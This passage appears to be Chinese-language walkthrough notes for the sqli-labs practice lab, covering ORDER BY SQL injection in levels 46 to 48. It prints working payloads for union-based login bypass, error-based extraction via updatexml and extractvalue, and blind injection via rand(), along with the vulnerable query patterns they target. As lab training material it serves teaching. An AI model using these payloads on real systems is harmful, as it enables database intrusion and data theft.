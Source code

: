 payload

```
login_user=admin&login_password=1')+union+select+1,database(),3--+&mysubmit=Login
```

## less-46 Order-By注入

> order by 注入是`SQL`注入中很常见的，被过滤的概率小；
>
> 可被用户控制的数据在order by 子句后边，即order参数可控
>
> **升序排序**（默认）：使用 `ORDER BY column_name ASC`，或者简单地 `ORDER BY column_name`。
>
> ```
> sql
> SELECT * FROM users ORDER BY last_name;
> ```
>
> 这将根据 `last_name` 列对用户进行升序排序。

```
$sql = "SELECT * FROM users ORDER BY $id";
```

不能使用union,使用报错注入

```
updatexml(1,concat(0x7e,(select+username+from+users+limit+3,1)),1)
extractvalue(1,concat(0x7e,(select+username+from+users+limit+3,1)))
```

## less-47

```
$sql = "SELECT * FROM users ORDER BY '$id'";
```

单引号闭合

payload

```
1'+and+extractvalue(1,concat(0x7e,(select+username+from+users+limit+3,1)))-'
```

## less-48

报错注入没了

```
$sql = "SELECT * FROM users ORDER BY $id";
```

使用盲注

```
rand () 验证
rand (ture) 和 rand (false) 的结果是不一样的

?sort=rand(true)
?sort=rand(false)
所以利用这个可以轻易构造出一个布尔和延时类型盲注的测试 payload
```
